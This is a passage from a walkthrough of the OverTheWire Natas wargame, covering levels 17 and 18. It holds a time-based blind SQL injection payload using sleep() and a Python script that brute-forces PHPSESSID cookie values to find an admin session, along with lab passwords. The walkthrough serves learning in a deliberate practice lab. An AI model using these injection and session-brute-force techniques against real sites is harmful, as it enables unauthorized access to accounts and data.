 This is the password we get:

```
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
```

# 17

```
Username: natas17
URL:      http://natas17.natas.labs.overthewire.org
```

This is just natas15 but now it doesn't confirm if we got it right with the text. Both correct and incorrect usernames don't have anything to display. So we have to rely purely on SQL to brute force. One way we can do this is with the `sleep(secs)` command, so that if a string exists in the password then it will sleep for a number of seconds (We'll use two, but you can increase or decrease it if you want). The input will look like this: `natas16" AND password LIKE BINARY "(pass)&" AND sleep(2) #` You'll be waiting alot longer though. Here's the updated code.

We got this password:

```
6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```

# 18

```
Username: natas18
URL:      http://natas18.natas.labs.overthewire.org
```

It looks like a login page where we need to be admin to get the password. Looking at the source code it seems it uses a cookie called `PHPSESSID`, which goes from 0 to 640, and tells what user it is logged onto. So we can just go through the entire range and see which session ID is admin.  We don't need to input anything else! 

```python
import requests
target = 'http://natas18.natas.labs.overthewire.org'
webauth = ('natas18','6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')

for uid in range(640):
    r = requests.get(target,
        auth=webauth,
        cookies={"PHPSESSID": str(uid)}
    )
    print("ID: " + str(uid))
    if "You are an admin. The credentials for the next level are:" in r.text:
        print(r.text.split("Password:")[1].split('<')[0].strip())
        break
```

The password we get in session id 119 is
